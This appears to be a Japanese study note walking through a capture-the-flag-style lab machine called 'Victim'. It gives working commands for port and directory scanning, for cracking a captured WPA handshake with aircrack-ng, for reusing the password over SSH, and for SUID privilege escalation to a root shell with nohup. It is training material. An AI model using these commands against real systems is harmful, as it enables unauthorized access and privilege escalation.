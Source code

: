 ## Victim
### 事前準備
  - rockyou.txt.gzファイルを解凍する
  - gunzip /usr/share/wordlists/rockyou.txt.gz 
### ポートスキャンまでは同じ
- `fping`を受け付けないこともあるので、`arp-scan`を使う
  - fpingはicmpプロトコルを飛ばしている
  - arp-scanはarpプロトコルを飛ばしている 
- ポート22, 80, 8080, 8999, 9000が開いている

### ブラウザで80,8080,8999の各サイトを見てみる
- html,robots.txt

### gobusterで80, 8080を見る   
- `gobuster dir -u 192.168.56.106 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50`
  - `-x`のオプションがあると拡張子を指定できる。ただし時間がかかる 
  - `-u` オプションは、リンクの次から順に検索していく
  - `-t`はスレッドの数を指定できる。デフォルトは10で、50だと３割くらい早くなる
- 8080ポートでもやってみる、この場合はhttp://$IP:8080。するとpasswordsテキストがある。中身を見てみると、、

### pcapファイルを取得
  - pcapファイルを取得する方法は２つある
  1. 8999ポートのブラウザにアクセスする、こういう表示をディレクトリリスティングと呼ぶ。本来はディレクトリなんだが、見やすいようにブラウザが見やすいようにしている
  2. WPA-01.capファイルをダウンロードする。
  3. `wget http://192.168.56.106:8999/WPA-01.cap`

### (補足)wiresharkの設定
- 見やすいようにする
- `view` -> `PacketBytes`のチェックリストを外す 
### wiresharkを起動して中身をチェックする
- `wireshark  WPA-01.cap`とターミナルで入力
- 全体を見るために、Statics -> Protocol Hierarchyを見る、wireless LANとあることからwifiのパケットであることがわかる
- SSIDは無線LANの識別IDで要はユーザ名のことで、ここではdlinkというユーザがいることがわかる
- 暗号化がwpa1で弱いことがわかる

### wiresharkを起動して中身をチェックしてユーザ名を見つける
- 虫メガネアイコンをクリックするとバーが下に出てくる
- Case sensitiveのとこにリストがあるのでDisplay fileterをStringにする
- 右側のとこにSSIDと入力する。SSIDはユーザ名のこと
- ユーザ名のところが青くなる。ユーザ名はdlink

### 暗号解読
- 次の2つは辞書が異なるだけで、どちらでもできる
- 本に書いてるの
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt`
  - パスワードがわかる
- ParrotOSにはwifi専用のパスワード辞書があるので、それでやってみる
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/wifite.txt` 
### sshで接続する
- ユーザとwifiのパスワードをsshでも使い回していると仮定してssh接続をする
- `ssh dlink@$IP`
- OSを特定する
- 個人で使える管理者権限を調べる

### SUIDファイルを特定する
- `find / -perm -4000 -ls 2> /dev/null`
  - `-ls`はロングフォーマットで表示する
- どっちでもいい
- `find / -perm -u=s -type f 2> /dev/null` 

### nohupコマンドでルートシェルを奪う
- `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`
  - GTFOBinsのSUIDのところにも書いてある
  - nohupコマンドはターミナルを閉じてもコマンドは継続して実行したいときに使うコマンド
  - -pは実ユーザと実際のユーザが異なる時につけるオプション。これがないと、ルートにはなれない
  - $(tty)はドルパーレンと呼ぶ、単に先にコマンドを実行しているだけ
  - `< $(tty)`標準入力
  - `> $(tty)`標準出力
  - `2> $(tty)`エラー出力
### rootを取得
  - `cd /root`
  - `ls`
  - `cat flag.txt`

